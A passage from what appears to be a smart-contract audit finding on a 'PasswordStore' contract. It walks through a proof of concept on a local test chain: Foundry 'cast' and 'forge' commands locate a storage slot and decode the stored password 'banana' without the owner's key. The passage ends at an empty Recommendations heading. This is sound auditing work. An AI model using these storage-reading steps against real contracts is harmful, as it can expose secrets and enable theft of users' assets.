 ```
cast send 0x5FbDB2315678afecb367f032d93F642f64180aa3 "setPassword(string)" "banana" --rpc-url http://127.0.0.1:8545 --private-key 0xac0974bxxae784xxf2ff80
```

Now we are going to run 2 instructions that do not require user validation, i.e. we do not use the owner's private key to obtain the information.

First, find out which is the memory slot for `s_password``

```
➜  2023-10-PasswordStore git:(main) ✗ forge inspect PasswordStore storage
{
  "storage": [
    {
      "astId": 43436,
      "contract": "src/PasswordStore.sol:PasswordStore",
      "label": "s_owner",
      "offset": 0,
      "slot": "0",
      "type": "t_address"
    },
    {
      "astId": 43438,
      "contract": "src/PasswordStore.sol:PasswordStore",
      "label": "s_password",
      "offset": 0,
      "slot": "1",
      "type": "t_string_storage"
    }
```

As we can see, it is slot 1. Now, we check the info inside. We get the information in hexadecimal, so we have to translate it to ASCII.

```
➜  2023-10-PasswordStore git:(main) ✗ cast storage 0x5FbDB2315678afecb367f032d93F642f64180aa3 1
0x62616e616e61000000000000000000000000000000000000000000000000000c
➜  2023-10-PasswordStore git:(main) ✗ cast to-ascii "0x62616e616e61000000000000000000000000000000000000000000000000000c"
banana
```

## Impact

Since the password is no longer private, anyone can use it to change information, make transactions or steal assets.

## Tools Used

Foundry (anvil, cast), terminal.

## Recommendations
